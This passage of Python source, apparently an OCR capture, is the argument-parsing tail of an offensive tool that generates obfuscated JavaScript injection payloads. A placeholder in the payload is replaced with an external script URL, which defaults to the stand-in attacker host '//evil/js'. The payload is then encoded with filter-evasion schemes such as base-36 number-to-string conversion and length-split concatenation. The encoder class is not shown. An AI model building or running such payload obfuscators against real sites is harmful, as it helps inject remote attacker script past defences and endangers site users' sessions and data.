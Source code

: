 ```python
        metavar='STRING', help='''Raw payload. %%SCRIPT%% will be
        replaced with the URL of the external script.''')
    parser.add_argument('-x', '--script', dest='script',
        default="//evil/js", metavar='STRING',
        help='''URL for the external script''')
    parser.add_argument('-e', '--encoding', dest='encoding',
        default='num_to_string', metavar='NAME',
        choices=['num_to_string', 'split_to_len'],
        help='''Type of payload encoding. More types to come
        soon...''')
    parser.add_argument('--singleQ', dest='quote',
        default='"', action='store_const', const="'",
        help='''Use single quotes for concatenating.''')
    parser.add_argument('-d','--debug', dest='loglevel',
        default=logging.INFO, action='store_const',
        const=logging.DEBUG,
        help='''Be very verbose.''')
    parser.add_argument('--toString', dest='to_string',
        default='toString', metavar='STRING',
        help='''String to use instead of "toString" when
        encoding payload as <num>["toString"](36).''')
    parser.add_argument('--maxLen', dest='max_len',
        default=15, metavar='NUMBER', type=int,
        help='''Maximum length to use when
        splitting payload.''')
    parser.add_argument('--maxInt', dest='max_int',
        default=MAX_JS_INT, metavar='NUMBER', type=int,
        help='''Maximum integer to use when
        encoding payload as <num>["toString"](36).''')
    args = parser.parse_args()
    
    logger.setLevel(args.loglevel)
    
    p = Payload(args.payload.replace('%%SCRIPT%%', args.script),
            args.to_string)
    
    print '%s' % getattr(p, 'as_'+args.encoding)(**vars(args))
```

